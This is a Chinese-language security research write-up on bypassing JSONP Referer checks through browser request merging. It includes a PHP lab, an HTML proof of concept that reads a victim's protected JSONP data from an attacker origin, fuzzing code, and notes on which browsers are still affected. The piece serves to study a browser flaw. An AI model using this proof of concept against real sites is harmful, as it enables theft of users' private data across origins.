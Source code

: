 # 使用request merging bypass referer(jsonp) 检测

## 1. 关于request merging和其会产生的问题

request merging : 浏览器会把多次相同的请求(并非所有请求)合并成一次，以加快资源加载速度。

e.g. 
```html
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/1"></script>
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/1"></script>
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/1"></script>
```
只会请求并加载一次"http://0.0.0.0:8888/jsonp/1"资源。

*曾经有研究指出，这种请求合并想象在iframe里也存在*，那么浏览器的这种特性就可以用来bypass部分程序的referer的判断，如jsonp的防御机制。

## 2. 环境和POC

绕过referer检测，攻击者能否拿到进行referer保护的用户信息？

攻击者服务器： http://example.com:8081
目标服务器： http://example.com:8082
referer检测： referer是否以“http://example.com:8082”开头
目标： 攻击者拿到属于用户的 "security content"

### 环境：

/jsonp.php
```php
<?php

function startsWith($url, $domain) {
     $length = strlen($domain);
     return (substr($url, 0, $length) === $domain);
}

$referrer = @$_SERVER['HTTP_REFERER'];

if (startsWith($referrer, "http://example.com:8082")) {
    $js_code = 'function jquery() { return "security content";}';
    echo $js_code;
} else {
    $js_code = 'function jquery() { return "nothing";}';
    echo $js_code;
}

```

/index.html
```html
<!DOCTYPE html>
<html>
<head>
    <title>index in http://0.0.0.0</title>
</head>
<body>
<script type="text/javascript" src="http://example.com:8082/jsonp.php"></script>
<script type="text/javascript">
    document.write(location.href + ":" +jquery());
</script>

</body>
</html>
```

### poc
http://example.com:8081/poc.html
```
<iframe src="http://example.com:8082/"></iframe>
<script type="text/javascript" src="http://example.com:8082/jsonp.php"></script>
<script type="text/javascript">
    document.write(jquery());
</script>
```

正常情况这个poc是没有办法获得jsonp里面的信息的，因为不能bypass`startsWith($referrer, "http://example.com:8082")`的检测。
但是在request merging的情况下，浏览器因为script资源的url是相同的，所以它只会请求`http://example.com:8082/jsonp.php`一次，则我们可以在`example.com:8081`里拿到只有`example.com:8082`可以拿到的资源。

## 第一次实验

访问：http://example.com:8081/poc.html

![](http://ww1.sinaimg.cn/large/005y7Ba5gy1fj4612z2h6j310q0fc3zw.jpg)

失败了...
之后我开始不正经了...

## fuzz response size in script src

难不成是response请求包大小的问题？请求太小的情况下，没有必要合并请求，所以浏览器直接不合并了？fuzz一下看看多大的请求会被合并。

代码：
flask:
```python
from flask import Response, Flask, stream_with_context

app = Flask(__name__)

@app.route('/jsonp/<int:size>')
def jsonp(size):
    def _genrate_file(size):
        yield "1"
        yield "\0" * (size-1)
    return Response(stream_with_context(_genrate_file(size)))

if __name__ == "__main__":
    app.run(debug=True, threaded=True, port=8888, host="0.0.0.0")
```
html:
```
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>fuzz size of response about request merging</title>
</head>
<body>
<script type="text/javascript">
(function(){
    for (var size = 3; size <= 100; size++) {
        var iframe = document.createElement('iframe');
        var html = '';
        for (var i = 3; i >= 0; i--) {
            html = html + 
            '<script src=http://0.0.0.0:8888/jsonp/'
            + size
            + '></'
            + 'script>';
        }
        iframe.src = 'data:text/html;charset=utf-8,' + encodeURI(html);
        document.body.appendChild(iframe);
    }
})();
</script>
</body>
</html>
```
实验结果，所有请求都合并了。我连1024都没有乘。很小很小的请求都会合并。

## iframe并不会merging??

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>iframe request merging</title>

<!-- test1 -->
<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/102400"></script>
</head>
<body>
<script type="text/javascript">
(function(){
    for (var size = 1; size <= 10; size++) {
        var iframe = document.createElement('iframe');
        html = '<script type="text/javascript" src="http://0.0.0.0:8888/jsonp/102400"></s' + 'cript>'
        iframe.src = 'data:text/html;charset=utf-8,' + encodeURI(html);
        document.body.appendChild(iframe);
    }
})();
</script>

<!-- test2 -->
<script src="https://cdn.bootcss.com/jquery/3.2.1/jquery.js"></script>
<iframe src="data:text/html;charset=utf-8,%3Cscript%20src%3D%22https%3A%2F%2Fcdn.bootcss.com%2Fjquery%2F3.2.1%2Fjquery.js%22%3E%3C%2Fscript%3E"></iframe>

<!-- test3 -->
<iframe src="./many_out_script.html"></iframe>

</body>
</html>
```

测试了三次。果然都没有合并请求...

绝招！问大佬： https://twitter.com/nearg1e/status/903297400797663232

@filedescriptor 是twitter上专注于浏览器安全的安全研究员，之前的“iframe也会发生 request merging”的结论也是他得出来的。

请教结果： 5月12日的时候验证chrome已经修复了该问题。好吧居然fix了。

## 大部分的国产浏览器依然受影响。

之前windows上对多款浏览器进行过UXSS的测试和特权域API的分析，所以windows环境里还有多款国产浏览器。我们知道大部分国产浏览器是基于chromium的，而且版本更新并不会像chrome那么勤快，特别是内核的更新一直是相对比较缓慢的。很多Nday都可以用(可是src不收呀！)。

test in 360se 8.2.1.340

![](http://ww1.sinaimg.cn/large/005y7Ba5gy1fj46nc4gr1j31d90nowgp.jpg)

poc修改为:
```html
<body>
    <iframe src="http://example.com:8082/"></iframe>
    <iframe src="http://example.com:8081/"></iframe>
</body>
```

这样保证了，攻击者域中的请求后执行。
思路验证成功。

在 IE11和Edge上 好像现在依旧没有fix该问题。我这边的版本可能稍微低了一点，POC都是可用的。

## other

现在很多浏览器漏洞(bug)都是和新特性(feature)相关的，或许request merging还有别的用处？

## link

https://twitter.com/nearg1e/status/903297400797663232
Exploiting the unexploitable with lesser known browser tricks from filedescriptor



